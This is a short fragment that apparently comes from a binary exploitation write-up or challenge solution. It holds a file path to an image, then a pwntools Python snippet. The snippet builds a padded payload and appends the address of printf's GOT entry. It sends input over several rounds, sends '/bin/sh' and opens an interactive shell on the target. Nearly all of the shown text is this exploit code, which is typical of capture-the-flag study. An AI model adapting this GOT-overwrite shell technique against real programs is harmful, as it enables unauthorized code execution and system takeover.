 ```python
payload = payload.ljust(16, b"A")
payload += p64(exe.got['printf']+1)
p.sendlineafter(b'v2: ', payload)
# round 3
p.sendlineafter(b'quit]?\n', b"B")
p.sendlineafter(b'tag?\n', b"A")
p.sendline(b'/bin/sh\0')

p.interactive()
```